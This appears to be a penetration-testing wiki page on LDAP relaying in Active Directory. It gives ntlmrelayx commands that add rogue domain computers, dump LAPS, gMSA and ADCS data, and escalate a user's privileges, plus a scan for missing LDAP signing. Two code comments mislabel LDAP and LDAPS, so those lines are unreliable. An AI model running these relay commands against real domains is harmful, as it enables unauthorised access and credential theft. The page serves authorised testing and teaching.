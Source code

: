 # LDAP Relaying

LDAP Relaying attacks can make use of NTLM authentication. Similar to [SMB Relaying](smb-relaying.md), an attacker who captures credentials via [MITM6](../networks/ipv6.md) or Responder can then relay them to a domain controller, targeting LDAP.&#x20;

It should be noted that the following two defaults need to be set in order for this to be exploited:

* [LDAP Signing Disabled](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-ldap-signing-in-windows-server)
* [LDAP Channel Binding Disabled](https://support.microsoft.com/en-us/topic/use-the-ldapenforcechannelbinding-registry-entry-to-make-ldap-authentication-over-ssl-tls-more-secure-e9ecfa27-5e57-8519-6ba3-d2c06b21812e)

### Enumeration

#### LDAPRelayScan

[LDAPRelayScan](https://github.com/zyn3rgy/LdapRelayScan) can be utilized to identify whether LDAP Signing and/or LDAP Channel Binding are enabled or not.

```bash
# Generic usage of LdapRelayScan.py  
LdapRelayScan.py -u $user -p $password -dc-ip $dcipaddress -method BOTH
```

### Exploitation

{% tabs %}
{% tab title="Computer Creation" %}
Create a new domain computer by abusing the default attribute `ms-DS-MachineAccountQuota` which is by default set to 10, allowing all authenticated users to add up to 10 computers to the domain.&#x20;



This account can then be utilized to perform authenticated attacks against the domain such as Kerberoasting.&#x20;

```bash
# Relay to LDAP
ntlmrelayx.py -t ldaps://$dcip --add-computer $computername

# Relay to LDAPS
ntlmrelayx.py -t ldap://$dcip --add-computer $computername
```
{% endtab %}

{% tab title="Dump" %}
Relay authentication to LDAP and obtain a significant amount of information about the domain such as ADCS configuration, LAPS, groups, users, etc.&#x20;

```bash
ntlmrelayx -t "ldap://$dcip" --dump-adcs --dump-laps --dump-gmsa
```
{% endtab %}

{% tab title="Escalate" %}
Relay captured credentials to LDAPS and escalate the privileges of a specified domain user.&#x20;

```bash
# Relay authentication over LDAPS and attempt to escalate privileges
ntlmrelayx.py -t ldaps://$dcip --escalate-user $username
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" %}

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/ldap-relay" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ntlm/relay" %}

